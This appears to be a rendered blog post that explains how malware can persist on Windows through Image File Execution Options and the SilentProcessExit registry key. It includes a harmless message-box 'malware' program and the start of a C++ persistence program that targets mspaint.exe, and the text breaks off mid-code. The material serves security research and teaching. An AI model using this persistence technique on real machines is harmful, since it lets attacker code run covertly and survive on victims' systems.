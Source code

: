 This post is the result of my own research into one of the interesting malware persistence trick: via Image File Execution Options.

### Image File Execution Options   

IFEO enables developers to attach a debugger to an application or process. This allows the debugger/application to run concurrently with the application being debugged.    

How to set this feature? We can launch a process/program when another application silently exits.    

*Silent exit* for an application means the application has been terminated in one of two ways:
1. Self termination by calling `ExitProcess`
2. Another process terminates the monitored process by calling `TerminateProcess`

This is configurable via the following registry key:    

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\SilentProcessExit`        

### practical example

Let's go to run our malware once Microsoft Paint (`mspaint.exe`) is silently exiting.     

So, let's say we have our "malware" (`hack.cpp`):   

```cpp
/*
hack.cpp
evil app for windows persistence via IFEO
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

As you can see, as usually, I use "meow-meow" message box "malware" =^..^=    

Then, create persistence script for modify registry (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via IFEO (GlobalFlag)
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  DWORD gF = 512;
  DWORD rM = 1;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\mspaint.exe";

  // silent exit
  const char* silent = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\SilentProcessExit\\mspaint.exe";

  // evil app
  const char* exe = "Z:\\2022-09-10-malware-pers-10\\hack.exe";
```